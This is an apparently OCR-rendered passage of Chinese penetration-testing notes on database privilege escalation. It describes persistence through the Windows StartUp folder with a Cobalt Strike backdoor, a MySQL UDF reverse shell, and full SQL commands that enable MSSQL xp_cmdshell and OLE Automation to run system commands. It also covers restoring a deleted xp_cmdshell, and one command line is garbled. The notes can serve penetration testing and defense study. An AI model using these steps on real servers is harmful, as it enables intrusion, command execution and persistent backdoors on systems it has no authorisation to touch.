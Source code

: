     * 启动项

    基于配合操作系统自启动

    导出自定义可执行文件到启动目录配合重启执行

    将创建好的后门或可执行文件进行服务器启动项写入，配合重启执行

    `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`也可以将CS后门文件放进去，达到一个开机自启动

    ```shell
    use exploit/windows/mysql/mysql_start_up
    ```

    * 反弹shell(属于udf提权)

    Mysql反弹shell提权，也是属于udf提权，只不过应用场景不同，例如没有得到webshell，但是获得了Mysql的root密码，恰好目标的数据库可以外连，那么就可以先将udf.dll文件的内容先插入到数据表中，然后再导出到’lib/plugin’

  * mssql(最高权限为sa,在mmsql中，默认可以外联)

    * xp_cmdshell

    xp_cmdshell 默认在 **mssql2000** 中是开启的，在 mssql2005 之后的版本中则默认禁止。如果用户拥有 管理员 sa 权限则可以用 sp_configure 重修开启它

    ```sql
    oqsl -S (服务器地址) -U (用户名) -P (密码) 即可登陆数据库服务器
    # 数据库——系统数据库——master——可编程性——扩展存储过程——系统扩展存储过程——是否有xp_cmdshell，有不代表就能提权
    启用：
    EXEC sp_configure 'show advanced options', 1
    RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    关闭：
    exec sp_configure 'show advanced options', 1;
    reconfigure;
    exec sp_configure 'xp_cmdshell', 0;
    reconfigure;
    执行：
    EXEC master.dbo.xp_cmdshell '命令'
    如果 xp_cmdshell 被删除了，可以上传 xplog70.dll 进行恢复
    exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL
    Server\MSSQL\Binn\xplog70.dll'
    如
    exec master.sys.sp_addextendedproc 'ipconfig' >c:\\1.txt
    ```

    * sp_oacreate

    主要是用来调用 OLE 对象，利用 OLE 对象的 run 方法执行系统命令

    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE WITH OVERRIDE;
    EXEC sp_configure 'Ole Automation Procedures', 1;
    RECONFIGURE WITH OVERRIDE;
    关闭：
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE WITH OVERRIDE;
    EXEC sp_configure 'Ole Automation Procedures', 0;
    RECONFIGURE WITH OVERRIDE;
    执行：
    declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod
    @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
    ```
